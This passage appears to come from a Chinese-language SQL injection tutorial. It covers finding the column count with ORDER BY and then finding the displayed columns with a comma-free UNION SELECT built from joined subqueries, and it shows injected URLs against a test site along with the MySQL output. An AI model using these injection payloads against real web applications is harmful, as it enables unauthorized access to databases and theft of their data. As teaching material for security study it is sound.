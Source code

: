 

# 0x03 查看列数



web语句: http://www.test.com/sql.php?id=1 order by 4



数据库语句: select * from test where id = 1 order by 4;



```plain
# 列数正确时
mysql> select * from test where id = 1 order by 4;
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 1    | 1    | 1       |
+------+------+------+---------+
1 row in set (0.00 sec)
```



```plain
# 列数超出时
mysql> select * from test where id = 1 order by 5;
ERROR 1054 (42S22): Unknown column '5' in 'order clause'
```



test 表字段4个所以 order by 4 即可多了会报错,报错就把数量自己减少到不报错即可



# 0x04 显示列数



web语句: http://www.test.com/sql.php?id=-1 union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D)



数据库语句: select  *from test where id=-1 union select*  from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);



```plain
mysql> select * from test where id=-1 union select * from (
    (select 1)A join 
    (select 2)B join 
    (select 3)C join 
    (select 4)D
);
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 2    | 3    | 4       |
+------+------+------+---------+
1 row in set (0.00 sec)
```
